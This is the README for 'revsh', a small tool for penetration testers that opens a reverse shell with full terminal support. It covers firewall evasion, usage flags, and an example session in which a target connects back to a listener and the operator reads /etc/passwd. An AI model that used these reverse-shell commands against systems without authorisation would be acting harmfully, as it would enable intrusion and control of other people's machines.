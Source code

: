 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Shellcode#Remote) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A [reverse shell](http://www.sans.edu/student-files/presentations/LVReverseShell.pdf) is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features in a small (~20k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed and tested on Linux x86_64. It hasn't been tested on other platforms, but it should port reasonably easily.

## Usage ##

	usage: revsh [-l [-e ENV_ARGS] [-s SHELL]] ADDRESS PORT

		-l: Setup a listener.
		-e ENV_ARGS: Export ENV_ARGS to the remote shell. (Default is "TERM".)
		-s SHELL: Invoke SHELL as the remote shell. (Default is /bin/bash.)

		Note: '-e' and '-s' only work with a listener.

## Example ##

First, setup the listener on the local host:

	empty@monkey:~$ revsh -l 192.168.0.42 9999

Then connect out from the remote host:

	target@kitty:~$ ./revsh 192.168.0.42 9999
	
We will now find a shell waiting for us back at the listener:

	empty@monkey:~$ revsh -l 192.168.0.42 9999
	Listening...	Connected!
	Initializing...	Done!
	################################
	# hostname: kitty
	# ip address: 192.168.0.6
	# username: target
	################################
	target@kitty:/$ ls -l /etc/passwd 
	-rw-r--r-- 1 root root 1375 Jul  2 10:24 /etc/passwd

## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	make

## Updates / Feature Additions ##

* Added support for UTF-8.
* Added support for an ~/.revsh/rc file. (Executes commands from the local file on the remote machine upon login.)

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

